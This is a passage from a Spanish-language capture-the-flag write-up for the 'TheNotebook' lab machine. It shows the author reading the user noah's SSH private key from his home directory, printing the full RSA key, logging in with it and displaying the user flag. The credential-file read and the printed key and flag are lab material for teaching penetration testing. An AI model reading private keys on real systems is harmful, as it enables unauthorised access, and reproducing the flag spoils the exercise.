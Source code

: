 Es posible que el directorio ``.ssh'' contenga una clave privada RSA para así podernos conectar a la máquina víctima por el servicio SSH con el usuario ``noah''. Tras comprobarlo, obtengo la siguiente clave privada:

```
www-data@thenotebook:/tmp$ cat home/noah/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
HVo4kvIHT0IXveAivxez3UpiulFkaQ4zk37rfHO3wuTWsyZ0vmL7gr3fQRBndrUD
v4k2zwetxYNt0hjdLDyA+KGWFFeW7ey9ynrMKW2ic2vBucEAUUe+mb0EazO2inhX
rTAQEgTrbO7jNoZEpf4MDRt7DTQ7dRz+k8HG4wIDAQABAoIBAQDIa0b51Ht84DbH
+UQY5+bRB8MHifGWr+4B6m1A7FcHViUwISPCODg6Gp5o3v55LuKxzPYPa/M0BBaf
Q9y29Nx7ce/JPGzAiKDGvH2JvaoF22qz9yQ5uOEzMMdpigS81snsV10gse1bQd4h
CA4ehjzUultDO7RPlDtbZCNxrhwpmBMjCjQna0R2TqPjEs4b7DT1Grs9O7d7pyNM
Um/rxjBx7AcbP+P7LBqLrnk7kCXeZXbi15Lc9uDUS2c3INeRPmbFl5d7OdlTbXce
YwHVJckFXyeVP6Qziu3yA3p6d+fhFCzWU3uzUKBL0GeJSARxISsvVRzXlHRBGU9V
AuyJ2O4JAoGBAO67RmkGsIAIww/DJ7fFRRK91dvQdeaFSmA7Xf5rhWFymZ/spj2/
rWuuxIS2AXp6pmk36GEpUN1Ea+jvkw/NaMPfGpIl50dO60I0B4FtJbood2gApfG9
0uPb7a+Yzbj10D3U6AnDi0tRtFwnnyfRevS+KEFVXHTLPTPGjRRQ41OdAoGBANlU
kn7eFJ04BYmzcWbupXaped7QEfshGMu34/HWl0/ejKXgVkLsGgSB5v3aOlP6KqEE
vk4wAFKj1i40pEAp0ZNawD5TsDSHoAsIxRnjRM+pZ2bjku0GNzCAU82/rJSnRA+X
i7zrFYhfaKldu4fNYgHKgDBx8X/DeD0vLellpLx/AoGBANoh0CIi9J7oYqNCZEYs
QALx5jilbzUk0WLAnA/eWs9BkVFpQDTnsSPVWscQLqWk7+zwIqq0v6iN3jPGxA8K
VxGyB2tGqt6jI58oPztpabGBTCmBfh82nT2KNNHfwwmfwZjdsu9I9zvo+e3CXlBZ
vglmvw2DW6l0EwX+A+ZuSmiZAoGAb2mgtDMrRDHc/Oul3gvHfV6CYIwwO5qK+Jyr
2WWWKla/qaWo8yPQbrEddtOyBS0BP4yL9s86yyK8gPFxpocJrk3esdT7RuKkVCPJ
z2yn8QE6Rg+yWZpPHqkazSZO1eItzQR2mYG2hzPKFtE7evH6JUrnjm5LTKEreco+
8iCuZAcCgYEA1fhcJzNwEUb2EOV/AI23rYpViF6SiDTfJrtV6ZCLTuKKhdvuqkKr
JjwmBxv0VN6MDmJ4OhYo1ZR6WiTMYq6kFGCmSCATPl4wbGmwb0ZHb0WBSbj5ErQ+
Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
-----END RSA PRIVATE KEY-----
```

Con la clave privada obtenida me conecto mediante el servicio SSH y visualizo la flag de usuario no privilegiado en la máquina víctima.

```
# ssh -l noah -i noah_rsa 10.10.10.230

Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)
System information as of Sat Jul 31 12:51:41 UTC 2021
Last login: Sat Jul 31 12:51:08 2021 from 10.10.14.61

noah@thenotebook:~$ cat user.txt

d40982b71a3be7b90d5454fb8f5592c2
```

### Usuario administrador (root)
